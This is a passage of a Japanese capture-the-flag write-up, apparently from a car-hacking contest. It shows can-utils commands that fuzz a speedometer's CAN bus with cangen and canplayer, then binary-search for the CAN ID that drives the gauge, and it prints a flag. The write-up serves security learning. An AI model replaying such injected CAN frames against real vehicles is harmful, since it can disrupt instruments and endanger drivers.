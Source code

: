 これで `isotprecv -s 7e2 -d 7ea can0` でASCIIエンコードされたフラグを得る。

<aside style="padding: 10px; border-radius: 5px; border: 1px solid #eee; background-color: transparent; width: 800px;">
⛳ bh{TAKE_THE_LONG_WAY_HOME}
</aside>

### I am Speed カテゴリ

スピードメーターが会場にデデンと置かれている。既に電源とCAN-to-USBデバイスが配線されており、PCにUSB刺して以下のコマンド打つだけでCAN通信ができるようになる。

```bash
sudo ip link set can0 type can bitrate 500000
sudo ip link set up can0
candump -t a -ac can0
```

---

実は決勝対策でスピードメーターを購入して一通りのCANおしゃべりを試していた。役立った。

[ECU hack - スピードメーター編 (Notion記事)](https://laysakura.notion.site/ECU-hack-127e7f3e990d8022836fd15524b24794)

---

問題文はメモしてないので、うろ覚えの題意を書く。

#### can-utils

> 題意: 速度計を荒ぶらせるコマンドを `bh{ls -al}` のような形式で提出せよ

cangenでファジングする問題。
ほぼ <https://laysakura.notion.site/ECU-hack-127e7f3e990d8022836fd15524b24794#127e7f3e990d80f19a10dfae079758b9> でやった通り。

まずリプレイするデータを作成。

```bash
sudo ip link add dev vcan0 type vcan
sudo ip link set up vcan0

candump vcan0 -l
cangen vcan0 -g 4 -I i -L 8 -D FFFFFFFFFFFFFFFF -n 2048 -v -v

grep "FFFFFFFFFFFF" candump-2024-10-21_1432606.log > candump-FF.log
```

`canplayer` でファジング開始。

```bash
grep "vcan0 0" candump-FF.log | canplayer can0=vcan0
```

速度計やその他のランプ・ビープ音が荒ぶる。

どのCAN IDが速度計に対応するか探す。1桁目が `2` であることはすぐ分かったので、そこから二分探索。

```bash
% grep "vcan0 2" candump-FF.log | canplayer can0=vcan0
% grep "vcan0 2" candump-FF.log |head -n 128 | canplayer can0=vcan0
# ...
% grep "vcan0 2" candump-FF.log |head -n 128 |head -n 64 | head -n 32  | head -n 16 | head -n 8 | head -n 4| tail -n 2 | head -n 1 | canplayer can0=vcan0
```
